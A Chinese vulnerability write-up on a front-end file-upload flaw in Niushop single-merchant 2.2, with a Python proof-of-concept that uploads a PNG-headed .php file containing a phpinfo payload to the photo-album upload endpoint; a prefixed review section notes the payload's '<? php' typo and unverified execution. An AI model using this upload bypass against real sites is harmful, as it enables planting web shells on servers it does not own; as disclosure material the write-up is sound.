


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：wap photoalbumupload可达、action=finish cookie；上传目录PHP可执行

- **结论使用边界（1）**：Python载荷写&lt;? php空格而非&lt;?php，不能按正常PHP长标签执行；不能称脚本已证明RCE。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：Python3中PNG以Unicode字符串构造可能UTF8变码，需明确Python2/bytes。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（3）**：图片大小和中间放PHP要求不具体，脚本却将PHP放IEND之后；截图指MySQL爆破文章资源。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **证据待核（4）**：完整返回路径/执行验证未给，只有HTTP状态/正文打印。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Niushop 单商户 2.2 前台getshell

一、漏洞简介
------------

二、漏洞影响
------------

Version：单商户 2.2

三、复现过程
------------

上传图片只做了前端校验，抓包改后缀即可绕过。

对文件内容做了检查，文件大小不能过大或过小，合成马最好放到中间。

请求包截图，删除不必要的参数仍旧能够上传。

所以导致**前台getshell**

### poc

    import requests

    session = requests.Session()

    paramsGet = {"s":"/wap/upload/photoalbumupload"}
    paramsPost = {"file_path":"upload/goods/","album_id":"30","type":"1,2,3,4"}
    paramsMultipart = [('file_upload', ('themin.php', "\x89PNG\r\n\x1a\n\x00\x00\x00\rIHDR\x00\x00\x00\x01\x00\x00\x00\x01\x08\x06\x00\x00\x00\x1f\x15\xc4\x89\x00\x00\x00\x0bIDAT\x08\x99c\xf8\x0f\x04\x00\x09\xfb\x03\xfd\xe3U\xf2\x9c\x00\x00\x00\x00IEND\xaeB`\x82<? php phpinfo(); ?>", 'application/octet-stream'))]
    headers = {"Accept":"application/json, text/javascript, */*; q=0.01","X-Requested-With":"XMLHttpRequest","User-Agent":"Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0","Referer":"http://127.0.0.1/index.php?s=/admin/goods/addgoods","Connection":"close","Accept-Language":"en","Accept-Encoding":"gzip, deflate"}
    cookies = {"action":"finish"}
    response = session.post("http://127.0.0.1/index.php", data=paramsPost, files=paramsMultipart, params=paramsGet, headers=headers, cookies=cookies)

    print("Status code:   %i" % response.status_code)
    print("Response body: %s" % response.content)

参考链接
--------

> https://y4er.com/post/niushop-getshell/
